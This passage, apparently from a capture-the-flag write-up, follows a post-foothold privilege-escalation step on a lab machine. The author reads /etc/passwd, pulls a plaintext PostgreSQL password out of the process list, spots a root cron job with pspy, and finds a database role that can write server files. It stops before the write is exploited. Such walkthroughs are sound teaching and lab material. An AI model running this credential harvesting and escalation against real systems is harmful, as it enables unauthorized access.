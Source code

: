 The `postgres` user confirms the existence of the database, and is most likely used to manage it.

```bash
(remote) wesley@download:/home/wesley$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
wesley:x:1000:1000:wesley:/home/wesley:/bin/bash
postgres:x:113:118:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

While searching for running `postgres` processes, I discovered one with a URI that includes both the user and password: `download:CoconutPineappleWatermelon`.

```bash
(remote) wesley@download:/home/wesley$ ss -antlp
State        Recv-Q       Send-Q             Local Address:Port              Peer Address:Port       Process
LISTEN       0            4096               127.0.0.53%lo:53                     0.0.0.0:*
LISTEN       0            128                      0.0.0.0:22                     0.0.0.0:*
LISTEN       0            511                    127.0.0.1:3000                   0.0.0.0:*
LISTEN       0            244                    127.0.0.1:5432                   0.0.0.0:*
LISTEN       0            511                      0.0.0.0:80                     0.0.0.0:*
LISTEN       0            128                         [::]:22                        [::]:*


(remote) wesley@download:/home/wesley$ ps aux | grep 5432
wesley      1841  0.0  0.3  24928 13384 pts/3    S+   19:16   0:00 /usr/lib/postgresql/12/bin/psql postgresql://download:CoconutPineappleWatermelon@localhost:5432/download
```

The presence of the URI in a running was peculiar, so used `pspy` to investigate further. Its seems there's a cron job to login _interactively_ as `postgres`.

```bash
2023/08/10 22:08:10 CMD: UID=0     PID=2475   | su -l postgres
```

### RCE as postgres

Successfully logged into the `download` Postgres database using `psql`.

```bash
(remote) wesley@download:/home/wesley$ psql -h localhost -U download -W download
Password:
psql (12.15 (Ubuntu 12.15-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

download=>
```

The user possesses `pg_write_server_files` privileges, allowing me to [write to files as the user running Postgres](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#simple-file-writing) through Postgres queries.

```bash
download=> Select user;
   user
----------
 download
(1 row)

download=> \du
                                          List of roles
 Role name |                         Attributes                         |        Member of
-----------+------------------------------------------------------------+-------------------------
 download  |                                                            | {pg_write_server_files}
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}

download=>
```